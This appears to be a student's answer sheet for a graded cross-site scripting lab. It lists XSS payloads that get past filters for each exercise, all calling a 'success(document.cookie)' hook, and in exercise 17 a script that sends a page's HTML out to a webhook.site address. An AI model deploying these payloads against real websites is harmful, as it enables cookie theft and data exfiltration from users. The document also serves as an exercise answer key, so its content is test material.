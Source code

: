 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
TODO:  <script>succes(document.cookie)</script>
```

# 2. No Script Allowed (3 points)

```
TODO: <script><script>success(document.cookie)</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
TODO: <scrscriptipt>success(document.cookie)</scrscriptipt>
```

# 4. An Open-and-Shut Case (3 points)

```
TODO: <SCRIPT>success(document.cookie)</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

```
TODO: <ScRipT>success(document.cookie)</ScRipT>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
TODO: <img src=1 href=1 onerror="java:success(document.cookie)"></img>
```

# 7. Between a Rock And a Hard Place (3 points)

```
TODO: <img src=1 ononerror=error = success(document.cookie)></img>
```

# 8. Angle of Death (6 points)

Attack input:

```
TODO: <<script>>success(document.cookie)</script>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
TODO: <iframe"<svg onload=success(document.cookie)>">
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
TODO: <iframe src=""<svg onload=success(document.cookie)>"">
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
TODO: '><script>success();</script>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
TODO: " onload=success(1)

```

# 15. The Early Bird Catches the Worm (3 points)

```
TODO: </ScrIpt><script>success(1)</script>
```

# 16. Tying Up Loose Ends (3 points)

```
TODO: <<//ScrIpt><script>success(1)<<//script>
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
// TODO: function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}
send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')
```

# 18. Congrats

N/A

# Əlavə qeydlər

```
Əlavə qeydlərinizi yazın
```
